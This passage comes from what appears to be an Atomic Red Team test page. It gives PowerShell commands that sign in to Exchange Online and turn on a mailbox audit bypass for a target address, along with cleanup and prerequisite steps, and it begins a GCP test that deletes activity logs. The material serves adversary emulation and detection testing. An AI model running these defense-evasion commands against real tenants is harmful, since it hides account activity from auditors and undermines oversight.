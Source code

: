 #### Attack Commands: Run with `powershell`!

```powershell
$secure_pwd = "#{password}" | ConvertTo-SecureString -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential -ArgumentList "#{username}", $secure_pwd
Connect-ExchangeOnline -Credential $creds
Set-MailboxAuditBypassAssociation -Identity "#{target_email}" -AuditBypassEnabled $true
```

#### Cleanup Commands:

```powershell
$secure_pwd = "#{password}" | ConvertTo-SecureString -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential -ArgumentList "#{username}", $secure_pwd
Connect-ExchangeOnline -Credential $creds
Set-MailboxAuditBypassAssociation -Identity "#{target_email}" -AuditBypassEnabled $false
Disconnect-ExchangeOnline -Confirm:$false
```

#### Dependencies: Run with `powershell`!

##### Description: ExchangeOnlineManagement PowerShell module must be installed

##### Check Prereq Commands:

```powershell
$RequiredModule = Get-Module -Name ExchangeOnlineManagement -ListAvailable
if (-not $RequiredModule) {exit 1}
if (-not $RequiredModule.ExportedCommands['Connect-ExchangeOnline']) {exit 1} else {exit 0}
```

##### Get Prereq Commands:

```powershell
Install-Module -Name ExchangeOnlineManagement
Import-Module ExchangeOnlineManagement
```

<br/>
<br/>

## Atomic Test #10 - GCP - Delete Activity Event Log

GCP provides 4 types of Cloud Audit Logs: Admin Activity, Data Access, System Events, and Policy Denied.
An adversary may attempt to delete logs in order to hide their activity. However, Admin Activity, System Events, and Policy Deny events logs cannot be deleted.

This Atomic attempts to delete the Activity Event log. An event is generated under the method name of `google.logging.v2.LoggingServiceV2.DeleteLog` with a Serverity of `ERROR`.

**Supported Platforms:** Iaas:gcp
